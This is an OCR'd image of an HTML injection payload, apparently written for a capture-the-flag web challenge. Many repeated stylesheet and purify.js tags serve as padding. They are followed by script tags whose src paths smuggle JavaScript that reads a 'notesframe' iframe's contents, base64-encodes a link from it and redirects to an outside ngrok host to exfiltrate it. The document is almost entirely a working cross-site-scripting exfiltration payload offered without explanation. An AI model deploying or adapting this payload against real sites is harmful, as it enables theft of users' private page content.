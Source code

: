 ```javascript!
<link href="/public/bootstrap.min.css" rel="stylesheet">
<link href="/challenge/style.css" rel="stylesheet">
<link href="/public/bootstrap.min.css" rel="stylesheet">
<link href="/challenge/style.css" rel="stylesheet">
<link href="/public/bootstrap.min.css" rel="stylesheet">
<link href="/challenge/style.css" rel="stylesheet">
<link href="/public/bootstrap.min.css" rel="stylesheet">
<link href="/challenge/style.css" rel="stylesheet">
<link href="/public/bootstrap.min.css" rel="stylesheet">
<link href="/challenge/style.css" rel="stylesheet">
<link href="/public/bootstrap.min.css" rel="stylesheet">
<link href="/challenge/style.css" rel="stylesheet">
<link href="/public/bootstrap.min.css" rel="stylesheet">
<link href="/challenge/style.css" rel="stylesheet">
<link href="/public/bootstrap.min.css" rel="stylesheet">
<link href="/challenge/style.css" rel="stylesheet">
<link href="/public/bootstrap.min.css" rel="stylesheet">
<link href="/challenge/style.css" rel="stylesheet">
<link href="/public/bootstrap.min.css" rel="stylesheet">
<link href="/challenge/style.css" rel="stylesheet">
<link href="/public/bootstrap.min.css" rel="stylesheet">
<link href="/challenge/style.css" rel="stylesheet">
<link href="/public/bootstrap.min.css" rel="stylesheet">
<link href="/challenge/style.css" rel="stylesheet">
<link href="/public/bootstrap.min.css" rel="stylesheet">
<link href="/challenge/style.css" rel="stylesheet">
<link href="/public/bootstrap.min.css" rel="stylesheet">
<link href="/challenge/style.css" rel="stylesheet">
<link href="/public/bootstrap.min.css" rel="stylesheet">
<link href="/challenge/style.css" rel="stylesheet">
<link href="/public/bootstrap.min.css" rel="stylesheet">
<link href="/challenge/style.css" rel="stylesheet">
<link href="/public/bootstrap.min.css" rel="stylesheet">
<link href="/challenge/style.css" rel="stylesheet">
<link href="/public/bootstrap.min.css" rel="stylesheet">
<link href="/challenge/style.css" rel="stylesheet">
<script src="http://127.0.0.1/challenge/purify.js"></script>
<script src="http://127.0.0.1/challenge/purify.js"></script>
<script src="http://127.0.0.1/challenge/purify.js"></script>
<script src="http://127.0.0.1/challenge/purify.js"></script>
<script src="http://127.0.0.1/challenge/purify.js"></script>
<script src="http://127.0.0.1/challenge/purify.js"></script>
<script src="http://127.0.0.1/challenge/purify.js"></script>
<script src="http://127.0.0.1/challenge/purify.js"></script>
<script src="http://127.0.0.1/somethingxyz/,console.log(document.getElementById('notesframe').contentWindow.document.body.innerHTML);" defer></script>
<script src="http://127.0.0.1/somethingxyz/,console.log(1);a=btoa(encodeURIComponent(document.getElementById('notesframe').contentWindow.document.body.querySelector('a').outerHTML));window.location.href='https://825f-2601-197-380-43a0-99e5-8a79-29c7-8ddf.ngrok-free.app/'+a;" defer></script>

```
